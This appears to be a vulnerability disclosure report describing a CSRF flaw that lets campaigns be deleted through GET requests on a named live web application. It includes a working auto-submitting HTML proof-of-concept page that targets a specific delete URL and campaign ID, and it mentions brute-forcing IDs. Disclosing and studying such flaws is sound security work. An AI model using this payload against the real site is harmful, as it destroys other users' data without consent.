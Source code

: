 **CSRF Vulnerability Allows Deletion of Other Users’ Campaigns via GET Request**
**Cross-Site Request Forgery (CSRF) – CWE-352**

Url : `https://app.signitic.com/campaign/<campaign_id>/delete`

## Description
The endpoint responsible for deleting campaigns is vulnerable to Cross-Site Request Forgery (CSRF). It accepts unauthenticated GET requests without validating the origin or requiring a CSRF token. As a result, an attacker can craft a malicious webpage that silently issues a delete request for a campaign while the victim is logged in, leading to unauthorized deletion of campaign resources — including those not owned by the victim.

## Steps to Reproduce

1. Log in to `https://app.signitic.com` with a valid user account.
2. While logged in, open the following CSRF Proof-of-Concept page crafted by the attacker:
3. <html>
     <body>
    <form action="https://app.signitic.com/campaign/140008/delete" method="GET">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
    </body>
     </html>
     
4. Once the page is loaded, the form is auto-submitted using the victim’s active session.
5. Campaign with ID `140008` (not necessarily owned by the victim) is deleted without user consent or interaction.

## Impact

- Any authenticated user can be tricked into deleting **any campaign**.
- No ownership check is enforced — users can delete campaigns they don’t own.
- High potential for data loss and abuse if campaign IDs are brute-forced.